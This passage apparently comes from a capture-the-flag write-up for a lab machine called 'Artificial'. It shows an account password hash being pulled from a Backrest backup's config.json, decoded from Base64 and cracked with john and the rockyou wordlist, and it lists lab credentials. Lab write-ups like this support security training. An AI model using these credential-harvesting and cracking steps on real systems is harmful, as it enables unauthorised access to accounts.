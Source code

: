 I have tried the credit of gael we have `gael:mattp005numbertwo`, but it did not worked.

Let's try to find the files of this service
I found the service file `/opt/backrest` and the backup file `/var/backups/backrest_backup.tar.gz`

We can download the backup files and check the `.config/config.json`
```
┌──(wither㉿localhost)-[~/…/Artificial/backrest/.config/backrest]
└─$ cat config.json      
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}

```
The password hash seems to be encrypted by `Base64`, let's use cyberchef to reverse it.
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
Then let's use john to crack it.
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt   
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^           (?)     
1g 0:00:00:15 DONE (2025-06-23 05:01) 0.06544g/s 353.4p/s 353.4c/s 353.4C/s lightbulb..huevos
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Then we get the credit `backrest_root:!@#$%^` and we can log in successfully and take into the dashboard